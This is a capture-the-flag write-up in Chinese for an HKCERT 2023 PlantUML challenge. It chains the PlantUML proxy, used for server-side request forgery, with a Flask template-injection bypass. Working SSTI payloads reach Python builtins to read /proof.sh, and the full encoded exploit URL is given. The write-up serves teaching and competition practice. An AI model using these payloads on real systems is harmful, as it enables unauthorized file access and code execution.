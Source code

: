 # Probably Unknown's Markup Language

通過觀察 `docker-compose-yml`，我們發現，題目給出的 plamtUML 實例可以通過域名 `puml.local` 來訪問載有 flag 的 Web 服務。

閲讀 [plantUML 文檔](https://plantuml.com/server)，plantUML 可以使用内置的 proxy 功能從 URL 中解析 plantUML 代碼。

API 格式如下：`http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=<url (url encoded)>`

下面我們閲讀 `web/server.py`，根據源代碼内容，我們發現目標 Web 服務存在 Flask SSTI 漏洞，但利用 `{% raw %}` 阻止注入。

漏洞利用方式如下：`http://puml.local/?<payload (url encoded)>`

首先，我們構造以下 Payload：

```
{% endraw %}
@startuml
a:{{''.__class__.__mro__[1].__subclasses__()}}
@enduml
{% raw %}
```

根據返回的 List，我們可以查找到 `<class '_frozen_importlib._ModuleLock'>` 處在下標為 `100` 的位置。

考慮到文件存儲在 `/proof.sh`，我們構造以下 Payload：

```
{% endraw %}
@startuml
a:{{''.__class__.__mro__[1].__subclasses__()[100].__init__.__globals__.__builtins__['open']('/proof.sh').read()}}
@enduml
{% raw %}
```

經過 URL Encode，得到如下 Payload URL：

```
http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=http://puml.local/?puml=%250A%7B%2525%2520endraw%2520%2525%7D%250A@startuml%250Aa:%7B%7B%2527%2527.__class__.__mro__%5B1%5D.__subclasses__()[100].__init__.__globals__.__builtins__[%27open%27](%27/proof.sh%27).read()%7D%7D%250A@enduml%250A%7B%2525%2520raw%2520%2525%7D%250A
```

訪問 URL，得到 Flag。

![1699885332541](image/puml/1.png)